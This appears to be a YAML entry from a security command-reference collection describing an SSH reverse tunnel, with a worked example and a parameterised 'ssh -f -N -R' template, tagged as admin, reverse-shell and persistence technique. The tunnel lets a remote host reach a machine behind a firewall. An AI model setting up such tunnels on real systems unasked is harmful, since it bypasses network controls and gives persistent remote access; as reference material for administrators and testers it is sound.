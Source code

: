 ```yaml
---
description: |
  SSH reverse tunnel. Allows you to make a connection from a remote machine, to the initiator of the tunnel, without having direct access to the network. For example, to login to a machine whose network does not allow incoming connections, that machine can execute the following: "ssh -f -N -R 14000:localhost:22 user@10.10.10.10 -p 2222"
  In this case the initiator will connect to the remote machine (10.10.10.10) through SSH on port 2222 and create a tunnel from the remote host localhost:14000 to the initiator SSH port 22. Once run, you can login to the initiator from the remote machine, by "ssh initiator_user@localhost -p 14000". This works best when the remote machine accepts the pubkey from the initiator, otherwise a password needs to be entered.

  Command Reference:

    Local Port: Port of the machine creating the reverse tunnel

    Remote Port Tunnel: The port of the remote machine, to which it listens as one end of the tunnel.

    Remote Address Tunnel: Remote address the remote machine uses to listen for connections to the tunnel.

    Remote User: User to login to the remote machine through ssh

    Remote IP: IP address of the remote machine

    Remote SSH Port: The port that the remote machine listens to for SSH connections

command: |
  ssh -f -N -R <remote_port_tunnel>:<remote_address_tunnel>:<local_port> <remote_user>@<remote_ip> -p <remote_ssh_port>
  
items:

target: |
  - Linux_target
  - MacOS_target
  - Windows_target
  
OS:
  - Linux
  
environment: |
  - Networking
  
command_types:
  - Admin
  - Reverse_Shell
  - Persistence
  
references:

---
```

